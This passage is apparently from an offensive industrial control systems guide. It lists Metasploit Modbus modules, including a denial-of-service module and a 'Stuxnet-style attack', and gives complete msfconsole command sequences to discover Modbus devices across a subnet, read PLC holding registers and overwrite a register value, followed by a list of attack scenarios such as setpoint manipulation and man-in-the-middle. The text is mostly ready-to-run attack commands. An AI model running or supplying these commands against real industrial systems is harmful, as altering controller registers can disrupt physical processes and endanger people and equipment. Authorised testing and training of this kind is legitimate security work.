 ### Metasploit Modbus Modules

Metasploit Framework includes several modules for Modbus exploitation.

#### Available Modbus Modules
```bash
# List Modbus-related modules
msf6 > search modbus

# Common Modbus modules
auxiliary/scanner/scada/modbusdetect    # Modbus device detection
auxiliary/scanner/scada/modbusclient    # Modbus client functionality  
auxiliary/dos/modbus/modbus_dos         # Modbus denial of service
exploit/windows/scada/modbus_stuxnet    # Stuxnet-style attack
```

#### Modbus Device Discovery
```bash
msf6 > use auxiliary/scanner/scada/modbusdetect
msf6 auxiliary(scanner/scada/modbusdetect) > set RHOSTS 192.168.1.0/24
msf6 auxiliary(scanner/scada/modbusdetect) > set RPORT 502
msf6 auxiliary(scanner/scada/modbusdetect) > run
```

#### Modbus Data Reading
```bash
msf6 > use auxiliary/scanner/scada/modbusclient
msf6 auxiliary(scanner/scada/modbusclient) > set RHOSTS 192.168.1.100
msf6 auxiliary(scanner/scada/modbusclient) > set FUNCTION READ_HOLDING_REGISTERS
msf6 auxiliary(scanner/scada/modbusclient) > set DATA_ADDRESS 1000
msf6 auxiliary(scanner/scada/modbusclient) > set NUMBER 10
msf6 auxiliary(scanner/scada/modbusclient) > run
```

#### Modbus Data Writing
```bash
msf6 > use auxiliary/scanner/scada/modbusclient
msf6 auxiliary(scanner/scada/modbusclient) > set RHOSTS 192.168.1.100
msf6 auxiliary(scanner/scada/modbusclient) > set FUNCTION WRITE_SINGLE_REGISTER
msf6 auxiliary(scanner/scada/modbusclient) > set DATA_ADDRESS 2000
msf6 auxiliary(scanner/scada/modbusclient) > set DATA 12345
msf6 auxiliary(scanner/scada/modbusclient) > run
```

### Modbus Attack Scenarios
- **Data Manipulation**: Altering process variables and setpoints
- **Denial of Service**: Flooding Modbus networks with requests
- **Device Impersonation**: Responding as legitimate Modbus devices
- **Man-in-the-Middle**: Intercepting and modifying Modbus communications

## Hacking PLC Using Modbus-CLI
